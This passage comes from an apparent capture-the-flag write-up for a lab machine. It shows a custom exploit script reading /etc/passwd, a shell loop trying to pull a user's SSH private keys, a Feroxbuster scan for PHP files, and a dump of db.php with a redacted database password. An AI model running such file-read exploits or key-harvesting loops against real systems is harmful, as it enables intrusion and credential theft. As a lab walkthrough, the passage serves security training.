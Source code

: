 ```python

main()
```

Used the exploit to read /etc/passwd, discovering another user called ‘development’.

```bash
python3 bountyhunter.py -t 10.129.219.22 -f /etc/passwd

[+] Successfully dumped /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

cat passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
development:x:1000:1000:Development:/home/development:/bin/bash
```

Unfortunately, we couldn’t read his private key.

```bash
for key in {'id_rsa','id_dsa','id_ecdsa','development.key','id_ed25519'}; do python3 bountyhunter.py -t 10.129.219.22 -f /home/development/.ssh/${key}; done

[+] Could NOT read the file :(

[+] Could NOT read the file :(
...
```

[Feroxbuster](https://github.com/epi052/feroxbuster) discovered other PHP files.

```bash
feroxbuster --url "http://10.129.219.22/" --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -C 404 -x php
200      GET        5l       15w      125c http://10.129.219.22/portal.php
200      GET        0l        0w        0c http://10.129.219.22/db.php
200      GET      388l     1470w    25169c http://10.129.219.22/index.php
200      GET       20l       63w      617c http://10.129.219.22/log_submit.php
```

The db.php file contained a hardcoded password for an admin user :0.

```bash
python3 bountyhunter.py -t 10.129.219.22 -f db.php

[+] Successfully dumped db.php

<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "<REDACTED>";
$testuser = "test";
?>
```
